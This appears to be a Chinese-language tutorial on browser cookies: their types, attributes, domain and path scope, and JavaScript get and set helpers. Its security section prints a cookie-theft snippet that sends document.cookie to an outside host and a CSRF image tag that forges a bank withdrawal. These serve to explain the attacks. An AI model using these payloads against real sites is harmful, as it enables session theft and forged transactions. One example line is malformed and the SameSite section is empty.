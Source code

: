 ## cookie 的分类

### session cookie

session cookie 没有过期时间，当浏览器关闭后就消失了，浏览器将没有设置过期时间的 cookie 作为 session cookie 来处理。

### Persistent cookie

Persistent cookie(意为：持久 cookie),这类 cookie 有一个明确的过期时间，在这段时间里面访问 cookie 归属的网站的时候都会携带 cookie ，通常用 cookie 来存储一些用户的访问信息，比如保存用户的登录状态，用户不必每次访问网站都进行登录。

### Secure cookie

Secure cookie ，这类 cookie 只会在加密传输的情况下携带，比如通过 HTTPs 传输的时候。在通过 HTTP 传输的时候，不会携带设置有 secure 标记的 cookie。

### HttpOnly cookie

当一个 cookie 被设置为 httpOnly 的以后，这个 cookie 不能被 javascript 这样的脚本语言拿到，只能通过 HTTP 和 HTTPs 传输。

### SameSite cookie

### Third-party cookie

cookie 的 domain 属性和浏览器地址栏中 domain 一致的 cookie 叫做 first-party cookie， 第三方 cookie 就是其 domain 属性不同于 浏览器地址栏中的 domain 的，这类 cookie 通常是属于第三方广告商的，他们会记录用户的访问习惯，和浏览历史，以此做到准确投放广告。

对于其中的原理，可以举个例子说明：

当你访问 `a.example.com` 这个网站的时候，这个网站中引用了广告商 `ad.com` 的广告，当广告内容被下载后，广告提供商的脚本会设置一个属于 ad.com 的 cookie 。下次当你访问 `b.example.com` 的时候，这个网站的广告也是 `ad.com` 提供的，此时向 `ad.com` 请求广告内容的时候就会携带上次访问 `a.example.com` 的时候设置的 cookie 。

对于现代浏览器都提供了禁止第三方 cookie 的选项。  

## cookie 的组成

cookie 由一下几个部分组成：

+ name
+ value
+ 其他属性

cookie 中 name 和 value 不能有 `, ; =` 以及空格 ，因为这几个符号是用来分隔 cookie 中的名和值的。如要包含，则要进行字符转译。在 javascript 中可以使用 `encodeURIComponent` 来完成。

对于服务器要设置 cookie 只需要在 HTTP 响应头部中使用 `Set-Cookie: token=324` 这样的方式就可以了。对于浏览器可以使用 `document.cookie="name=xiaowang";domain="example.com"` 就可以了。

### cookie 的注意事项

#### Domain 和 Path

域名和路径定义了一个 cookie 的可见范围，它告诉浏览器这个 cookie 的归属范围。出于安全原因， domain 只能设置为当前域名的上层域名，比如在 `example.com` 下就不能把 cookie 的 domain 设置为 `a.example.com` ，而 `a.example.com`可以设置 cookie 的 domain 为 `example.com`

对于 path ，如果一个 cookie 的 path 为 `/doc` 那么在 ``/doc/` 下面的所有页面都能访问到这个 cookie （前提是 domain 也是满足要求）

#### 跨站脚本 - cookie 盗窃

一个 web 页面中可以包含来自其他站点的 js 脚本，而这些脚本是可以访问到该网站下的 cookie 的，这种情况下这些脚本就可能将 cookie 内容发送出去。比如采用下面方法，将 cookie 发送给 www.foo.com

```javascript
var img = document.createElement(‘img’);
img.src = ‘www.foo.com?’+ ‘text=’ + escape(document.cookie);
```

#### 跨站伪造请求

假如，Mallory 在访问 Bob 的博客的时候在他的博客中留言，其中包含如下内容：

```
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

如果 Bob 访问过银行的网站，且其中的 cookie 还没有过期，那么当 Bob 在访问自己的博客的时候，就会加载这幅图片，就会想 `bank.example.com` 发起请求，这样就形成了一次伪造的请求。

### 使用 javascript 操作 cookie

```javascript
util.setCookie = function(name, value, dayToLive, option) {
	var cookie = name + '=' + encodeURIComponent(value);
	if (typeof dayToLive === 'number') {
		cookie += ';max-age=' + (dayToLive * 24 * 60 * 60);
	}
	if (option) {
		for (var key in option) {
			if (key === 'path') {
				cookie += ';path=' + option[key];
			} else if (key === 'domain') {
				cookie += ';domain=' + option[key];
			} else if (key === 'secure') {
				cookie += ';secure';
			}
		}
	}
	document.cookie = cookie;
};

util.getCookie = function(name) {
	var cookie = document.cookie;
	var list = cookie.split(/;\s/);
	for (var i = 0; i < list.length; i++) {
		var pair = list[i].split('=');
		if (pair[0] == name) {
			return decodeURIComponent(pair[1]);
		}
	}
	return null;
};
```

需要注意的是：在  浏览器中 javascript 是拿不到 cookie 的过期时间，path，domain 等信息的，多条 cookie 之间是通过 `; ` 分号和空格分隔开来的，形如：`"name=xiaoming; age=21" ` 所以想要获取 cookie 首先需要使用 `/;\s/` 这样的正则将其分隔开来，然后对每一项，再使用 `=` 分割这样就得到了键值。最后在对结果进行一些转码。

而设置 cookie 的方法则是直接在 document.cookie 上面赋值即可，这不会影响到现有的 cookie （当年我觉得这样会覆盖掉现有的 cookie，其实是并不是这样的），对于 domain 和 path 等信息，可以设置但是不会被访问到。
